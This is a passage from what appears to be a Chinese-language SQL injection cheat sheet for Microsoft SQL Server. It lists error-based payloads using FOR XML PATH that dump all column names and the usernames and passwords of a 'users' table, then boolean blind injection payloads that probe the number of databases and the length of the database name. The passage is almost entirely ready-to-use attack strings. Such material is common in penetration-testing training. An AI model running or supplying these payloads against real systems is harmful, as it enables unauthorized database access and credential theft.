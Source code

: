 #### 获取`所有`字段名

```SQL
id=1'and 1=(select quotename(column_name) from information_schema.columns where table_name='users' FOR XML PATH('')) --+		
```

![image-20240905162556382](./assets/image-20240905162556382.png)

#### 获取`所有`数据

```sql
id=1'and 1=(select quotename(username),quotename(password) from users for xml path('')) --+
```

![image-20240905162750487](./assets/image-20240905162750487.png)

------



# 布尔盲注

#### 判断数据库个数

```sql
id=1'and (select count(*) from sys.databases)=8 --
```

#### 获取数据库名长度

```sql
id=1'and len(select db_name())=4 --+
```

![image-20240905164331195](./assets/image-20240905164331195.png)
